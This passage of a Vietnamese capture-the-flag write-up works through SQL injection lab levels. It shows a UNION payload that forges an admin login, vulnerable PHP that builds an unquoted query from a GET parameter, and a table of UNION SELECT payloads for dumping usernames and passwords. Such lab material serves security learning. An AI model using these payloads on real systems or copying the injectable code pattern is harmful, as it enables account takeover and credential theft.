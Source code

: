 - Với `union` thì ta có thể thao tác thay đổi pass hay chèn thêm các user vào.
- Tuy nhiên với bài này thì mình sẽ thay đổi pass của `admin` r dùng pass đó để login.

```sql
abc' UNION SELECT 'admin', MD5('abc') -- 
```
- Pass: `abc`.

![image](https://github.com/user-attachments/assets/330b7cfd-ea4d-4fbc-bd58-fbf6ac306089)

### LV6
```php
<?php
if (isset($_GET["id"])) {
    try {
        include("db.php");
        $database = make_connection("posts_db");

        $id = $database->real_escape_string($_GET["id"]);
        $sql = "SELECT content FROM posts WHERE id=$id";
        $query = $database->query($sql);
        $row = $query->fetch_assoc(); // Get the first row
```

-  Đọc sơ thì ta thấy 1 vài hàm như là `real_escape_string(` hàm này loại bỏ các ký tự đặc biệt (như: **NULL , \n, \r, \, “, ", Control-Z**) trong chuỗi `id`.
- Tương tự chall trên thì ta cx lại có `$row = $query->fetch_assoc(); // Get the first row`.
- H ta thử phá thoi:)))
- Nếu nhập id ko có thì not found điều này khá hiển nhiên. Tuy nhiên ta thử chèn sql vào xem nó có hoạt động ko:))

![image](https://github.com/user-attachments/assets/d4f0742b-8d5b-4be6-bb67-a9df84686aa0)
- Quên ko đọc đề nên mình ngồi mò mãi chả bt nó chỉ yêu cầu mình check version:))

![image](https://github.com/user-attachments/assets/78e287ac-6336-40fc-a53e-14afecbc24a8)

## Advanced
### LV7
- Chall này trước khi đọc source thì mình check được là nếu reg acc bằng sql thì khi đn vào có thể truy vấn được.
- Nên mình thử show all bằng union.

![image](https://github.com/user-attachments/assets/7cc200d4-1b51-4bce-b859-c16cf6b099d2)

![image](https://github.com/user-attachments/assets/6221862e-8fa7-49b2-bab4-9e8e4fa9c651)
- Ở đây mình dùng concat tuy nhiên chỉ lấy đc 1 account. Nên mình đoán nó giống chall trước:)
- Search:

| **Hàm**             | **Mô tả**                                                                                   | **Ví dụ**                                                                                              |
|---------------------|---------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------|
| `CONCAT()`          | Nối các chuỗi lại với nhau.                                                                  | `' UNION SELECT CONCAT(username, ':', password) FROM users #`                                          |
| `CONCAT_WS()`       | Nối các chuỗi lại với nhau và cho phép chỉ định ký tự phân cách giữa các chuỗi.             | `' UNION SELECT CONCAT_WS(':', username, password) FROM users #`                                        |
| `GROUP_CONCAT()`    | Nối tất cả các giá trị trong một cột thành một chuỗi duy nhất.                              | `' UNION SELECT GROUP_CONCAT(username) FROM users #`                                                   |
| `SUBSTRING()`       | Lấy một phần của chuỗi, chỉ định vị trí bắt đầu và độ dài của phần chuỗi cần lấy.             | `' UNION SELECT SUBSTRING(password, 1, 10) FROM users #`                                              |
| `SUBSTRING_INDEX()` | Lấy một phần của chuỗi trước hoặc sau dấu phân cách chỉ định.                               | `' UNION SELECT SUBSTRING_INDEX(password, ':', 1) FROM users #`                                        |
| `ORD()`             | Lấy mã ASCII của ký tự đầu tiên trong chuỗi.                                                 | `' UNION SELECT ORD(SUBSTRING(password, 1, 1)) FROM users #`                                           |
| `AES_DECRYPT()`     | Giải mã dữ liệu đã mã hóa bằng thuật toán AES (nếu có khóa mã hóa).                          | `' UNION SELECT AES_DECRYPT(encrypted_password, 'encryption_key') FROM users #`                        |
| `COUNT()`           | Đếm số lượng bản ghi trong bảng.                                                             | `' UNION SELECT COUNT(*) FROM users #`                                                                  |